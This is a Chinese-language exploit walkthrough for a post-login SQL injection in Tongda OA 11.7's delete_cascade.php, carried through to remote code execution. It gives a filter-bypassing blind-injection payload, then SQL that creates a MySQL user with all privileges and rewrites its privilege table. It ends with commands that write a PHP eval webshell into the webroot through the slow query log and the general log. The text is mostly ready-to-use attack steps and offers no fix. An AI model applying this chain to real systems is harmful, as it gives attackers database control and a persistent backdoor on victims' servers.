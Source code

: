 通达oa 11.7 后台sql注入漏洞&rce
===============================

一、漏洞简介
------------

### 利用条件：

需要登陆后台

二、漏洞影响
------------

通达oa 11.7

三、复现过程
------------

注入出现在`general/hr/manage/query/delete_cascade.php`文件中，代码实现如下：

![1.png](./.resource/通达oa11.7后台sql注入漏洞&rce/media/rId25.png)

首先判断`$condition_cascade`是否为空，如果不为空，则将其中的\'替换为\'。为什么要这样替换呢，主要是因为V11.7版本中，注册变量时考虑了安全问题，将用户输入的字符用addslashes函数进行保护，如下：

`inc/common.inc.php`代码

![2.png](./.resource/通达oa11.7后台sql注入漏洞&rce/media/rId26.png)

因为是无回显机制，是盲注，所以尝试(select 1 from (select
sleep(5))a)，结果没那么简单：

![3.png](./.resource/通达oa11.7后台sql注入漏洞&rce/media/rId27.png)

触发了通达OA的过滤机制，翻看代码，在`inc/conn.php`文件中找到过滤机制如下:

![4.png](./.resource/通达oa11.7后台sql注入漏洞&rce/media/rId28.png)

其过滤了一些字符，但是并非无法绕过，盲注的核心是：substr、if等函数，均未被过滤，所以还是有机会的。

传入错误的SQL语句时，页面出错：

![5.png](./.resource/通达oa11.7后台sql注入漏洞&rce/media/rId29.png)

那么只要构造MySQL报错即可配合if函数进行盲注了，翻看局外人师傅在补天白帽大会上的分享，发现`power(9999,99)`也可以使数据库报错，所以构造语句：

    select if((substr(user(),1,1)='r'),1,power(9999,99)) # 当字符相等时，不报错，错误时报错

![6.png](./.resource/通达oa11.7后台sql注入漏洞&rce/media/rId30.png)

![7.png](./.resource/通达oa11.7后台sql注入漏洞&rce/media/rId31.png)

### 构造利用链

> 添加用户：

    grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

![8.png](./.resource/通达oa11.7后台sql注入漏洞&rce/media/rId33.png)

![9.png](./.resource/通达oa11.7后台sql注入漏洞&rce/media/rId34.png)

然后该用户是对mysql数据库拥有所有权限的,然后给自己加权限：

    UPDATE `mysql`.`user` SET `Password` = '*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('at666' AS Binary(5));

![10.png](./.resource/通达oa11.7后台sql注入漏洞&rce/media/rId35.png)

然后用注入点刷新权限，因为该用户是没有刷新权限的权限的：`general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`这样就拥有了所有权限。再次登录：

![11.png](./.resource/通达oa11.7后台sql注入漏洞&rce/media/rId36.png)

提示这个，或者让改密码死活改不了。再执行一下

    grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

![12.png](./.resource/通达oa11.7后台sql注入漏洞&rce/media/rId37.png)

### 写shell

    # 查路径：
    select @@basedir; # c:\td0a117\mysql5\，那么web目录就是c:\td0a117\webroot    # 方法1：
    set global slow_query_log=on;
    set global slow_query_log_file='C:/td0a117/webroot/tony.php';
    select '<?php eval($_POST[x]);?>' or sleep(11);
    # 方法2：
    set global general_log = on;
    set global general_log_file = 'C:/td0a117/webroot/tony2.php';
    select '<?php eval($_POST[x]);?>';
    show variables like '%general%';

![13.png](./.resource/通达oa11.7后台sql注入漏洞&rce/media/rId39.png)
